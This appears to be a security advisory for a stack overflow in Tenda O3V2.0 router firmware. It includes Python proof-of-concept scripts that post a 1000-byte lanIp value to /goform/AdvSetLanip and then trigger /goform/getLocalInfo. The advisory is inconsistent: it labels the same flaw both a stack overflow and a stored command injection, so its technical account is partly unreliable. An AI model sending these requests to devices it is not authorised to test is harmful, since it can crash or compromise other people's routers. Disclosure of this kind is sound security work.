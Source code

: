 ## Summary

A stack overflow vulnerability exists in the Tenda O3V2.0 V1.0.0.10(2478) firmware. The `lanIp` POST parameter accepted by `/goform/AdvSetLanip` is written to the configuration key `lan.ip` via `SetValue` without length or content validation. The stored value is later read (via `/goform/getLocalInfo`) and stored on the stack. Since there is no limit on the length of the stored value, it can lead to stack overflow.

## Affected product & versions

- **Vendor:** Tenda
- **Product:** O3V2.0 (firmware)
- **Affected version:** V1.0.0.10(2478)
- **Download:** https://www.tenda.com.cn/download/detail-2832.html

## Vulnerability type

- **Type:** Command injection (persistent / stored)
- **Root cause:** Missing input validation / insufficient sanitization and lack of length checks in `SetValue` and `GetValue` functions that handle `lan.ip`.

## Technical details

- The `AdvSetLanip` endpoint accepts a POST parameter `lanIp` and calls `SetValue("lan.ip", v13)` without enforcing a maximum length or sanitizing shell metacharacters.
- Condition: For the program to execute this branch, the value of the POST parameter "lanType" must not be set to "Static".

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_100849.png)

- The `getLocalInfo` endpoint reads `lan.ip` via `GetValue("lan.ip", v6)` and passes it into a shell-invoking context (or a system call) without sanitization, making stored payloads executed when the endpoint is processed.
- ![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_101449.png)
- Both `SetValue` and `GetValue` lack proper validation of the value contents and length.

## Proof of Concept

1. **Store a malicious `lan.ip` value**

```python
# poc_set.py
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/AdvSetLanip"
payload = b"a"*1000

data = {"lanIp":payload,"lanType":"A"}
response = requests.post(url, data=data)
print(response.text)
```

2. **Trigger the vulnerable behavior**

```python
# poc_get.py
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/getLocalInfo"
response = requests.post(url)
print(response.text)
```

3. **Attack result**

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_104719.png)